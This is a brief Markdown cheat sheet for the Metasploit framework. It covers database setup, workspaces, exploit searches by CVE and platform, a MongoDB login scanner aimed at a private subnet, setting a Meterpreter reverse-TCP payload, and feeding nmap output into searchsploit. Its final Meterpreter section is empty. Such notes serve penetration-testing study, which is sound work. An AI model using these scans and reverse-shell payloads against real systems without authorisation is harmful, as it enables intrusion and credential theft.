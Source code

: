 # MetaSploit

## Initialize
- Database settings: ```systemctl start postgresql``` & ```msfdb init```
- Run: ```msfconsole```  

## Workspace
- Create: ```workspace -a nasa``` 
- Delete: ```workspace -d nsa```
- Show: ```workspace```  
- Go to a workspace: ``` workspace nasa```

## Search
```
search type:exploit cve:2019
search type:auxiliary cve:2019
search platform:windows description:chrome
search platform:android description:2019
search platform:exploit description:samsung
```

## Auxiliary
- Example
  - ```use  auxiliary/scanner/mongodb/mongodb_login```
  - ```set rhosts 192.168.1.0/24```
  - ```run```


## Exploit
- Change default payload
  - ```show payloads``` 
  - ```set payload windows/meterpreter/reverse_tcp```
- Change targets
  - ```show targets```
  - ```set target 1```

## Meterprete


Input from nmap
- ```nmap -sV -oX output.xml 192.168.3.5```
- ```searchsploit --nmap output.xml```
